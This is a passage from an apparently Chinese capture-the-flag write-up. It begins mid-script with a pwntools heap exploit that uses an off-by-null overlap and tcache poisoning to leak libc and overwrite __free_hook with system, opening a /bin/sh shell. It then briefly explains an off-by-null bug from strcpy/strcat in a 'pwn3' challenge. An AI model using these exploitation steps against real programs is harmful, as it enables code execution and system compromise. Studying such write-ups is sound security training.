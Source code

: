```
 io.sendlineafter('content: ',content)

def dele(index):
 io.sendlineafter('Choice: ','3')
 io.sendlineafter('idx: ',str(index))

def show(index):
 io.sendlineafter('Choice: ','4')
 io.sendlineafter('idx: ',str(index))

def exp():
 add(0xf8,'f1ag\n')#0
 add(0xf8,'f1ag\n')#1
 add(0xf8,'f1ag\n')#2
 add(0xf8,'f1ag\n')#3
 add(0x18,'f1ag\n')#4
 dele(2)
 add(0xf8,'a'*0xf0+p64(0x300)+'\n')#2

 for i in range(7):
  add(0xf8,'a\n')#5~11
 for i in range(7):
  dele(11-i)
 
 dele(0)
 gdb.attach(io)
 dele(3)
 for i in range(7):
  add(0xf8,'f1ag\n')#0,3,5~9
 add(0xf8,'f1ag\n')#10
 show(1)
 malloc_hook = u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-96-16
 libc_base = malloc_hook - libc.symbols['__malloc_hook']
 print('libc_base',hex(libc_base))
 free_hook = libc.symbols['__free_hook'] + libc_base
 system = libc.symbols['system'] + libc_base

 add(0xf8,'f1ag\n')#11=1
 dele(1)
 edit(11,p64(free_hook-8)+'\n')
 add(0xf8,'f1ag\n')#1
 add(0xf8,'/bin/sh\x00'+p64(system)+'\n')#12
 dele(12)
 io.interactive()
exp()
```

### 【pwn3】

这个题利用的是strcpy、strcat等一些对字符串操作的函数的漏洞，当他们复制字符串的时候会把字符串的最后一个字节\x00给带上，极容易造成off-by-null漏洞。而这个题的漏洞点正在于此，\x00正好将存放长度的地址覆盖置0，就可以将长度的值改写为一个很大的值，打败boss进入到奖励函数中。![图片](https://img-blog.csdnimg.cn/img_convert/3a7ba0bb6709a77fb33cb50426c820ec.webp?x-oss-process=image/format,png)

